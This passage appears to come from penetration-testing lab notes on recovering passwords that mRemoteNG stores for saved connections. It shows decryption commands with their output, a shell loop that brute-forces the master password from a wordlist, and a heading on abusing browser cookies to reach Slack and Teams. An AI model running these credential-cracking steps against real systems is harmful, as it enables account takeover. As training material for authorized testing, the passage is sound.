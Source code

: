 #### Attempt to Decrypt the Password with a Custom Password

```
python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA=="

Traceback (most recent call last):
  File "/home/plaintext/htb/academy/mremoteng_decrypt.py", line 49, in <module>
    main()
  File "/home/plaintext/htb/academy/mremoteng_decrypt.py", line 45, in main
    plaintext = cipher.decrypt_and_verify(ciphertext, tag)
  File "/usr/lib/python3/dist-packages/Cryptodome/Cipher/_mode_gcm.py", line 567, in decrypt_and_verify
    self.verify(received_mac_tag)
  File "/usr/lib/python3/dist-packages/Cryptodome/Cipher/_mode_gcm.py", line 508, in verify
    raise ValueError("MAC check failed")
ValueError: MAC check failed
```

#### Decrypt the Password with mremoteng_decrypt and a Custom Password

```
python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p admin

Password: ASDki230kasd09fk233aDA
```

#### For Loop to Crack the Master Password with mremoteng_decrypt

```
for password in $(cat /usr/share/wordlists/fasttrack.txt);do echo $password; python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p $password 2>/dev/null;done    
                              
Spring2017
Spring2016
admin
Password: ASDki230kasd09fk233aDA
admin admin          
admins

<SNIP>
```

## Abusing Cookies to Get Access to IM Clients

IM = instant messaging applications like Slack and Microsoft Teams

### Firefox Cookie Extraction
